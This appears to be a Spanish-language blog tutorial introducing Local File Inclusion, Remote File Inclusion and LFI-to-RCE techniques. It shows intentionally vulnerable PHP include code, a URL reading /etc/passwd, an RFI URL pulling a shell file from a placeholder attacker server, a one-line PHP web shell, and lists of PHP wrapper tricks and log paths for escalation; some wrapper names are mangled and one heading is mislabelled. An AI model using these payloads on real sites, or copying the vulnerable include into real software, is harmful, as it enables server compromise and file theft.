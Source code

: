 ```yaml
---
layout: post
title:  "Aprendiendo a identificar los diferentes ataques basicos a nivel Web"
description: Aprendiendo sobre las Vulnerabilidades " LFI // RFI // RCE "
tags: Web Attacks
---
```

Empezaremos por aprender las principales Vulnerabilidades a nivel Web
  
# ~ LFI ~   Local File Inclusion

1.- La vulnerabilidad de Local File Inclusion se produce como consecuencia de un fallo en la programación de la página, filtrando inadecuadamente lo que se incluye al usar funciones en PHP para incluir archivos desde una variable.

-Ejemplo 1
Para poder corroborar si un sitio es vulnerable, se puede colocar un valor ilógico a la variable. 
En nuestro ejemplo tenemos: "http://localhost/index.php?page=" donde se coloca un valor, en este caso http://localhost/index.php?page=78se3, algo aleatorio que no se encuentre registrado.
Si arroja un error como Warning: main()… o Warning: include()… o similar entonces es probable que sea vulnerable a RFI o LFI

~ Archivo vulnerable de php mediante LFI ~ 
{% highlight php %}
<?php
include $_GET[‘pagina’];
?>
{% endhighlight %}

-Ejemplo 2
Nos montamos un servidor apache ($service apache2 start) que almacene dos archivos:
```
* example.php
* file.txt
```
Donde example.php seria:
{% highlight php %}
<?php
    $file = $_GET['filename'];
    include($file);
?>
{% endhighlight %}

Y file.txt:
``` 
Por Aqui Puede Haber Un LFI
```
Nosotros apuntando a nuestro servidor podrimos ya listar archivos Locales del servidor, atraves de la variable "filename"
```bash
http://localhost/example.php?filename=file.txt
http://localhost/example.php?filename=/etc/passwd
```

# ~ RFI ~   Remote File Inclusion
La vulnerabilidad de Remote File Inclusion se produce cuando:
Una página vulnerable que presente un aspecto similar a este en su URL:   " http://[servidor_victima]/index.php?page=plantilla.html "
El atacante (Nosotros) podriamos obtener una Shell en el servidor vulnerable mediante lo siguiente:
http://[servidor_victima]/index.php?page=http://[servidor_atacante]/shell.txt&&cmd=ls

Pudiendo contener el archivo shell.txt cualquier código, por ejemplo:
{% highlight php %}
<?php
  system($cmd);
?>
{% endhighlight %}

# ~ RCE ~   Remote File Inclusion
Algunas formas comunes de pasar de un LFI a RCE:
Ahora, por lo general, cuando encuentro una inclusión de archivo local o LFI, primero trato de convertirlo en una ejecución remota de código.

> Trucos para convertir su LFI en RCE mediante el ~ Uso de formularios / funciones de carga de archivos:
```bash
Usando el contenedor de PHP  wait: // comando
Usando el archivo PHP wrapper  php: //
Usando el contenedor PHP  php: // filter
Usando PHP      input: // stream
Usando datos: // texto / plano; base64, comando
Usando / proc / self / environment
Usando / proc / self / fd
```
>Las siguientes Rutas importantes:
```bash
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
``` 
